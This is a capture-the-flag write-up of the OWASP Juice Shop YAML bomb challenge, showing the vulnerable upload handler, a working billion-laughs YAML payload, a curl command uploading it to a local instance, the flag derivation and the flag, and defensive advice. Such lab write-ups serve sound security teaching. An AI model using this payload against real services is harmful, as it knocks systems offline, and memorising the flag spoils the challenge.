


# Memory Bomb

**Platform:** PCGCTF · **Challenge ID:** 215 · **Category:** Insecure Deserialization (JuiceShop track) · **Points:** 1000 · **Rank:** Expert

**Status:** Solved on PCGCTF — flag accepted.

## The challenge

> Drop some explosive data into a vulnerable file-handling endpoint.

This is the Juice Shop `yamlBombChallenge` — a deserialization DoS through the complaint file-upload feature.

## Thought process

"Explosive data" + "file-handling endpoint" points at the YAML upload path. From `build/routes/fileUpload.js`:

```js
const data = file.buffer.toString()
const sandbox = { yaml: jsYaml, data }
vm.createContext(sandbox)
const yamlString = vm.runInContext('JSON.stringify(yaml.load(data))', sandbox, { timeout: 2000 })
...
} catch (err) {
  if (errorMessage.includes('Invalid string length') ||
      errorMessage.includes('Script execution timed out')) {
    solve(yamlBombChallenge)     // <-- THIS challenge
  }
}
```

So an uploaded `.yml`/`.yaml` file is parsed with `js-yaml`'s `yaml.load()` and then `JSON.stringify`-d. The challenge solves if that throws `Invalid string length` (string too large for V8) or times out.

The classic trigger is a **YAML "billion laughs"** bomb: nested anchors (`&a`) and aliases (`*a`). Each level references the one below nine times, so `yaml.load()` expands `9^9 ≈ 387 million` leaf strings. Stringifying that exceeds V8's maximum string length → `Invalid string length`. The on-disk file stays tiny (≈340 bytes, well under the 200 KB multer limit); the blow-up happens only when it is expanded in memory — a decompression/expansion bomb.

Routing check from `server.js`:

```js
app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed,
  ..., handleYamlUpload)
```

Field name `file`, filename must end in `.yml`/`.yaml`.

## Solving it

`bomb.yml` — nine levels, nine refs each:

```yaml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

Upload it:

```sh
curl -s -X POST http://localhost:3000/file-upload \
  -H "Authorization: Bearer $TOKEN" \
  -F "file=@bomb.yml;type=application/x-yaml"
```

Response: `Error: Sorry, we are temporarily not available! Please try again later.` — the 503 from the `Invalid string length` branch. `challenges.yamlBombChallenge` is marked solved.

## Deriving the flag

```python
import hmac, hashlib
key = b"0ae20b40bbb05e9cbde184f7e8625a6f21eaf6cb52259c1e0f4a287709a2c62b"  # CTF_KEY
hmac.new(key, b"Memory Bomb", hashlib.sha1).hexdigest()
# -> f2cc9cf5b82b0d356612c767d2b5ad98ebcd6ef6
```

## Screenshots

Exploit against the local instance (342-byte file → server DoS):



Flag accepted on PCGCTF:



## Flag

```text
pcgCTF{f2cc9cf5b82b0d356612c767d2b5ad98ebcd6ef6}
```

## Takeaway

Size limits on *input* don't bound *expansion*. A 342-byte YAML file becomes hundreds of millions of objects after anchor resolution — a deserialization bomb. Defenses: disable or cap anchor/alias expansion (`js-yaml` `FAILSAFE_SCHEMA` / limits), parse untrusted data in a killable worker, and never assume "the file is small, so parsing is cheap." The same pattern is the billion-laughs XXE bomb one layer up.

## Reference

- `build/routes/fileUpload.js` → `handleYamlUpload` (parse + solve logic)
- `build/routes/server.js` (`/file-upload` route)
- Related: [Blocked RCE DoS](135-blocked-rce-dos.md), [Successful RCE DoS](201-successful-rce-dos.md)
